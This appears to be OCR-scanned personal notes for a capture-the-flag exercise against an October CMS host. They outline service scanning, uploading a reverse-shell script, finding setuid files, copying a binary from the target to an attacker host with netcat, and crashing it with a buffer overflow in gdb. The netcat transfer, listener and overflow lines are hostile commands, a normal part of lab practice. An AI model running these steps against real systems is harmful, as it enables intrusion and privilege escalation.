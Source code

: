 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo
* nc -lvnp 888
* cd /usr/local/bin
* ldd ovrflw \|grep libc
* Check if the ASLR is enabled in the HOST \(VM\)



